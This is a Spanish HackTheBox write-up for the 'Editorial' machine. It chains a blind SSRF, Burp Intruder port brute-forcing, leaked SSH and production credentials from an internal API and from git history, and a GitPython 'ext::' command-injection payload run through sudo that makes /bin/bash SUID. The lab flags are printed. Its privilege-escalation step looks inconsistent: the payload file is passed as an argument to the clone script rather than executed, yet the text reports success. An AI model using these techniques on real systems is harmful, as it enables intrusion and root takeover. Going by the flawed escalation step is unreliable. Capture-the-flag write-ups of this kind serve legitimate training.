



# Editorial HackTheBox

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-17 06:14 EDT
Nmap scan report for 10.10.11.20
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.33 seconds
```

Añadimos al `/etc/hosts` el dominio llamado `editorial.htb` para poder visualizar la pagina, una vez hecho eso, si nos vamos a la siguiente `URL`...

```
URL = http://editorial.htb/upload
```

Veremos que podemos subir un archivo y previsualizarlo en la foto de perfil del formulario a parte de que tambien se puede cargar una imagen desde una `URL`, el que mas nos va a interesar va a ser el de poner una `URL` ya que tiene pinta de que es vulnerable a `SSRF` y en este caso es un `Blind SSRF` por que si ponemos nuestra `IP` teniendo un servidor de `python` a la escucha en el mismo puerto `80` para que llegue una peticion veremos que funciona, pero poco podemos hacer, por lo que tendremos que ver algun puerto que haya abierto en la propia maquina utilizando `localhost` por lo que utilizaremos fuerza bruta con el `Intruder` del `BurpSuit`, capturaremos la peticion de la `URL`...

```
POST /upload-cover HTTP/1.1

Host: editorial.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: multipart/form-data; boundary=---------------------------369402493640784425151506746531

Content-Length: 365

Origin: http://editorial.htb

Connection: close

Referer: http://editorial.htb/upload


-----------------------------369402493640784425151506746531

Content-Disposition: form-data; name="bookurl"


http://localhost:<PORT>/

-----------------------------369402493640784425151506746531

Content-Disposition: form-data; name="bookfile"; filename=""

Content-Type: application/octet-stream


-----------------------------369402493640784425151506746531--
```

Donde pone `<PORT>` tendremos que poner los dos simbolos del `Intruder` para que pruebe ahi todos los puertos posibles que son `65535` puertos, haciendo la siguiente comparativa...

Ya que cuando ponemos cualquier puerto nos sale esta respuesta...

```
HTTP/1.1 200 OK

Server: nginx/1.18.0 (Ubuntu)

Date: Mon, 17 Jun 2024 15:12:28 GMT

Content-Type: text/html; charset=utf-8

Connection: close

Content-Length: 61


/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg
```

Nos aparece siempre la misma imagen, por lo que si aparece eso no sera el puerto correcto, tendremos que filtrar en el `Intruder` poniendo que no nos muestre el contenido que lleve `/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg` por lo que nos mostrara solo los que sean diferentes siendo asi el puerto correcto...

> Configuracion del `Burp Suit`

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Y le daremos a `Start Attack`, una vez que el ataque haya terminado, haremos lo siguiente...

Filtraremos para que no nos muestre lo siguiente `/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg` y nos aparecera solo un puerto el `5000`...

Si ahora donde es injectable el `SSRF` haremos lo siguiente...

<figure><figcaption></figcaption></figure>

En ese parametro ponemos lo siguiente descubierto...

```
http://127.0.0.1:5000/
```

Y cargara algo en la imagen, si vamos a ese link, te descargara lo siguiente...

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sent to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the API.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of the API.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

Si nos vamos a `/api/latest/metadata/messages/authors` de las `URL's` que nos aparecen ahi de la siguiente manera...

```
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```

Nos volvera a cargar una especie de imagen, pero si vamos a ese link nos descargara otra cosa, lo que parece ser las credenciales para el `ssh` de un usuario...

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

```
User = dev
Password = dev080217_devAPI!@
```

Si nos conectamos al `ssh` con esas credenciales veremos que si son esas, por lo que ya estariamos dentro de la maquina...

Leemos la flag...

> user.txt (flag1)

```
f5b31202198117c3c94ba54dc2b338fb
```

Si nos vamos a la siguiente ruta...

```shell
cd ~/apps/.git
```

Y hacemos lo siguiente...

```shell
git log
```

Info:

```
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info
    
    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app
    
    * This contains the base of this project.
    * Also we add a feature to enable to external authors send us their
       books and validate a future post in our editorial.
```

Si investigamos el siguiente codigo de esta forma...

```shell
git show 1e84a036b2f33c59e2390730699a488c65643d28
```

Info:

```
+# -- : (development) mail message to new authors
+@app.route(api_route + '/authors/message', methods=['GET'])
+def api_mail_new_authors():
+    return jsonify({
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+    }) # TODO: replace dev credentials when checks pass
```

Vemos que estan las credenciales de `prod`...

```
User = prod
Password = 080217_Producti0n_2023!@
```

```shell
su prod
```

Y ya seriamos ese usuario, si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Por lo que podremos ejecutar ese comando como `root` pero vemos que tiene un `*` por lo que podremos utilizar ruta y ejecutar lo que queramos, pero como `git`, si hacemos lo siguiente...

```shell
pip3 list
```

Info:

```
GitPython             3.1.29
```

Vemos que es una version vulnerable de `git` por lo que haremos lo siguiente...

```shell
nano /tmp/payload.py
```

```python
from git import Repo
import os

# Inicializar un repositorio git vacío (opcionalmente en modo bare)
r = Repo.init('', bare=True)

# Ejecutar el comando para establecer el bit setuid en /bin/bash
command = 'chmod u+s /bin/bash'
r.clone_from('ext::sh -c "{}"'.format(command), '/tmp/evil_repo', multi_options=["-c", "protocol.ext.allow=always"])

# Ejecutar /bin/bash para asegurar el setuid
os.system('/bin/bash')
```

Crearemos ese archivo en `/tmp` y ahora lo ejecutaremos para que se nos ponga con `SUID` la `bash`...

```shell
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py /tmp/payload.py
```

Saltaran algunos errores, pero si hacemos lo siguiente...

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-sr-x 1 root root 1396520 Mar 14 11:31 /bin/bash
```

Veremos que funciono, por lo que haremos...

```shell
bash -p
```

Y ya seremos `root`, ahora leeremos la flag...

> root.txt (flag2)

```
318b5b7ad0c1f48a997d10fbcf28b7fc
```
